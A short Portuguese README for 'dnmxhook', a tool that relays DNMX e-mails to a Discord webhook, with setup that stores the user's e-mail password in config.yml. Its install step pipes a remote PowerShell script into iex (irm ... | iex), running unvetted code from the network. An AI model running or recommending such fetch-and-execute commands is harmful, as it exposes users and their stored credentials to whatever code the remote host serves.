 # dnmxhook

Receba novos e-mails do provedor DNMX em tempo real através de um webhook do Discord.

## Recursos
- **Código open-source**
- **E-mails seguros**
- **Fácil configuração**
- **Atualização de caixa de entrada em tempo real**

## Configuração
1. Acesse [DNMX.SU](https://dnmx.su/) e crie uma conta.
2. Abra o arquivo `config.yml` e insira seu e-mail e senha.
3. Crie um webhook no Discord (recomenda-se um servidor privado).
4. Insira a URL do webhook no arquivo `config.yml`.

## Instalação e Uso
1. Abra o terminal ou PowerShell no diretório raiz do projeto.
2. Execute o seguinte comando:
   ```powershell
   irm 'https://dnmxhook.vercel.app/install.ps1' | iex
   ```

## Executável
Após a instalação, será gerado automaticamente o arquivo `start.bat` no diretório raiz do projeto. Basta abrir esse arquivo para iniciar o programa!

---

Aproveite a integração simplificada do DNMX com o Discord!
